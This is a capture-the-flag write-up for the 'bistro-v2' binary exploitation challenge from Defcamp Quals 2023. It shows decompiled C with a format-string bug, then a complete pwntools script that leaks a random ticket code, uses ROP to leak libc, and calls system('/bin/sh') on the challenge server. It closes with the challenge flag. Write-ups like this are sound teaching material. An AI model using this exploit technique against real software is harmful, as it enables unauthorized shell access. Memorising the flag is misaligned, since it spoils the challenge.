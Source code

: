 ```yaml
---
title: bistro-v2
type: writeup
date: 2023-10-22T09:56:31+03:00
description: Writeup for bistro-v2 [Defcamp Quals 2023]
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

Maybe you can get a free menu!!

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```
$ checksec restaurant-v2
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   82 Symbols	  No	0		4		restaurant-v2
```
It's the same binary as in ``bistro``, but with an added function that checks a "code". Let's check it:

```c
int main(int argc,char **argv)
{
  int iVar1;
  ssize_t sVar2;
  undefined4 in_register_0000003c;
  char **argv-local;
  int argc-local;
  int not_flag;
  int flag;
  int fd;
  
  init((EVP_PKEY_CTX *)CONCAT44(in_register_0000003c,argc));
  fd = open("/dev/urandom",0);
  if (fd == -1) {
    puts("Open failed");
    iVar1 = -1;
  }
  else {
    sVar2 = read(fd,&flag,4);
    if (sVar2 == 4) {
      close(fd);
      puts("Wellcome to the restaurant V2!");
      fflush(stdout);
      fgets(buff,0x400,stdin);
      printf(buff);
      puts("Show me your ticket to pass: ");
      fflush(stdout);
      __isoc99_scanf("%x",&not_flag);
      if (flag == not_flag) {
        restaurant();
      }
      else {
        puts("Permission denied!\n");
      }
      iVar1 = 0;
    }
    else {
      puts("Read failed\n");
      iVar1 = -1;
    }
  }
  return iVar1;
}
```
So we just need to leak it with the vulnerable printf and write it correctly to pass the check. Then we run the same script as before but with some addresses changed.

### Solution

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./restaurant")
target = remote("34.107.4.232", 31399)

# Found with ROPGadget
pop_rdi = p64(0x0000000000400b33)
ret = p64(0x00000000004006ae) # align stack to 16-bytes again for system call

# Found in the binary
main_addr = p64(0x0040088a)
puts_plt = p64(0x004006c0)
puts_got = p64(0x00602018)

# Leak the real code
target.sendline(b"%9$x")
code_leak = target.recvuntil(b"Show me your ticket to pass: ").split(b'\n')[1]

# Send it when the binary asks for the ticket
print(code_leak)
target.sendline(code_leak)

# Same exploit as in bistro, check that writeup
target.sendline(b"3")
payload = b"a" * 0x78 + pop_rdi + puts_got + puts_plt + main_addr # go back to main for more inputs
target.sendline(payload)
print(target.recvuntil(b">>"))
print(target.recvline())
puts_leak = u64(target.recvline().strip().split(b':')[1].ljust(8, b'\x00'))
print(puts_leak)
print(hex(puts_leak))

system_addr = p64(puts_leak - 202064)
print(system_addr)

sh_addr = p64(puts_leak + 0x133418)

payload = b"a" * 0x78 + ret + pop_rdi + sh_addr + system_addr

target.sendline(payload)
target.interactive()
```

#### Flag

```CTF{04134a331cd5bed41dc418c04854ac3fd7e03148f0e61d74d61508f19b7c5933}```

